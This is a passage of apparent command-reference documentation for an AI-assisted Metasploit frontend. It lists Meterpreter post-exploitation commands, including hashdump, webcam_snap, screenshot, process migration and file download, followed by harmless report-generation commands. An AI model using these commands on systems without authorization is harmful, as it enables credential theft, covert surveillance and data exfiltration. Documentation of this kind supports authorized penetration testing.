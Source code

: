 ### Meterpreter Commands

```bash
# When in meterpreter session
meterpreter> sysinfo
meterpreter> getuid
meterpreter> ps
meterpreter> ls
meterpreter> pwd
meterpreter> cd C:\
meterpreter> download file.txt
meterpreter> upload file.txt
meterpreter> execute -f cmd.exe -i
meterpreter> migrate 1234
meterpreter> hashdump
meterpreter> screenshot
meterpreter> webcam_snap
meterpreter> background
```

## Reporting Commands

### Report Generation

```bash
# Generate HTML report
msf-ai> report generate --format html --output report.html

# Generate PDF report
msf-ai> report generate --format pdf --template executive --output executive.pdf

# Generate JSON data
msf-ai> report generate --format json --output data.json

# Custom report options
msf-ai> report generate --format html --include-screenshots --filter severity:high
```

### Report Management

```bash
# List generated reports
msf-ai> reports list

# Show report information
msf-ai> reports info <report_id>

# Export report
msf-ai> reports export <report_id> --format pdf

# Delete report
msf-ai> reports delete <report_id>

# Archive reports
msf-ai> reports archive --older-than 30d
```
